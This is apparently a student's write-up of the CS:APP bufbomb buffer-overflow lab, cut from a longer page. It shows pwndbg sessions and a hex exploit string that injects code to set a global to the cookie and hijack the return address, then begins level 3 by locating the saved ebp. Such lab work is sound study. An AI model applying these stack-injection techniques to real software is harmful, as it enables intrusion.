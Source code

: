 then we need use gdb to find the location of write funtion**(eax stores the return value, so we change the return value here to the code we passed above)**

```
pwndbg> r -u i am lovely please give me money
Starting program: /home/q/bufbomb -u i am lovely please give me money
Userid: i
Cookie: 0x4e06a707

Breakpoint 1, 0x08049200 in getbuf ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────[ REGISTERS ]─────────────────────────────────
 EAX  0x556834d8 (_reserved+1037528) —▸ 0xf7fb8890 (_IO_stdfile_1_lock) ◂— 0x0

```

```
b *0x8049200
```

so my exp is 

```
c7 04 25 00 d1 04 08 07
a7 06 4e 68 9d 8c 04 08
c3 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 d8 34 68 55#eax
```



## level3:Dynamite

oh my brain is boom,levle3 need we first return the cookie to test()

and then reduction ebp =-= have some strange? 

in the level2 i had pointed **(eax stores the return value)**

so we can put cookie in eax

when we change a vaule we will have a new ebp,but now we need that old ebp so we can use gdb to find it



```
b *0x8048db9
```

i have to say pwngdb+pwndbg are so good

we can see that old ebp is 0x55683530

```
pwndbg> r -u i
Starting program: /home/q/bufbomb -u i
Userid: i
Cookie: 0x4e06a707

Breakpoint 1, 0x08048db9 in test ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────[ REGISTERS ]─────────────────────────────────
 EAX  0x14c87578
 EBX  0x0
 ECX  0xf7fb7074 (randtbl+20) ◂— 0xb900745c /* '\\t' */
 EDX  0x0
 EDI  0x1
 ESI  0x55686580 ◂— 0x0
```